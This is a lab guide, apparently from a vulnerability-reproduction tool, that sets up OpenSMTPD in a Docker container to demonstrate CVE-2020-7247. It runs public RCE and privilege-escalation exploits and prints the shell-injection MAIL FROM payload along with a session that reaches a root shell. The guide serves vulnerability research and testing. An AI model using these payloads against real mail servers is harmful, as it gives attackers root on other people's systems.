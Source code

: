 # CVE-2020-7247 (Remote Code Execution in opensmtpd)

### Description

CVE-2020-7247 is a vulnerability affecting OpenSMTPD, a mail server
developed by the OpenBSD project, which is also available on several
Linux distributions such as Debian.  The flaw was identified by the
Qualys Security team and disclosed in January 2020.

[The
report](https://www.qualys.com/2020/01/28/cve-2020-7247/lpe-rce-opensmtpd.txt),
describes a shell injection in the SMTP server of `opensmtpd`, which
can lead to a Local Privilege Escalation or even a Remote Code
Execution as `root` if the server is publicly exposed.



### Reproducing a Vulnerable Environment
```shell
python decret.py --number 2020-7247 --release bullseye --directory opensmtpd --selenium --fixed-version=6.6.2p1-1~bpo10+1
```

DECRET currently has a small issue with version numbering, and we have
to hard-code the fixed version to make sure it finds the correct
information.  This should be fixed soon.

```shell
root@cve-2020-7247:/# smtpd -d
info: OpenSMTPD 6.6.1p1 starting
warn: purge_task: opendir: No such file or directory
pony express: listen: Address already in use
smtpd: process pony socket closed
```

There is actually another small with this example.  Indeed, Docker
produces a `/etc/hosts` with two `localhost` lines (one for IPv4 and
one for IPv6), and `opensmtpd` tries to bind twice on the loopback.

The simple solution here is to rewrite `localhost` as `127.0.0.1` in
the configuration file (updating `/etc/hosts` is not possible, since
the file is handled by the Docker engine):

```shell
root@cve-2020-7247:/# sed -i s/localhost/127.0.0.1/ /etc/smtpd.conf
root@cve-2020-7247:/# /etc/init.d/opensmtpd start
```

### Simple testing method

The vulnerable version of `opensmtpd` should now be running.

You can try to use one of the available exploits, such as
`/tmp/decret/exploit_2_verified`, which allows you to execute an
(almost) arbitrary command as `root` (there are size and charset
limitations, that can be overcome using various tricks, such as the
one described in Qualys advisory):

```shell
root@cve-2020-7247:/# apt install -y python3 python-is-python3
root@cve-2020-7247:/# ls /tmp/surprise
ls: cannot access '/tmp/surprise': No such file or directory
root@cve-2020-7247:/# python /tmp/decret/exploit_2_verified  127.0.0.1 25 "touch /tmp/surprise"
[*] OpenSMTPD detected
[*] Connected, sending payload
[*] Payload sent
[*] Done
root@cve-2020-7247:/# ls /tmp/surprise
/tmp/surprise
```

You can also try to run the Local Privilege Escalation in `/tmp/decret/exploit_0_verified`:
```
root@cve-2020-7247:/# apt install -y gcc
[...]
root@cve-2020-7247:/# su toto
toto@cve-2020-7247:/$ perl /tmp/decret/exploit_0_verified LPE
raptor_opensmtpd.pl - LPE and RCE in OpenBSD's OpenSMTPD
Copyright (c) 2020 Marco Ivaldi <raptor@0xdeadbeef.info>

< 220 cve-2020-7247 ESMTP OpenSMTPD
> HELO fnord
< 250 cve-2020-7247 Hello fnord [127.0.0.1], pleased to meet you
> MAIL FROM:<;for i in 0 1 2 3 4 5 6 7 8 9 a b c d;do read r;done;sh;exit 0;>
< 250 2.0.0 Ok
> RCPT TO:<root>
< 250 2.1.5 Destination address valid: Recipient ok
> DATA
< 354 Enter mail, end with "." on a line by itself
< 250 2.0.0 4192aeac Message accepted for delivery

Payload sent, please wait 5 seconds...
-rwsrwxrwx 1 root root 16712 May 26 17:00 /usr/local/bin/pwned
# id
uid=0(root) gid=0(root) groups=0(root),1000(toto)
# 
```

If we update `opensmtpd` in the container (you should  : 
```shell
apt-get install opensmtpd
```
The exploits do not work anymore.
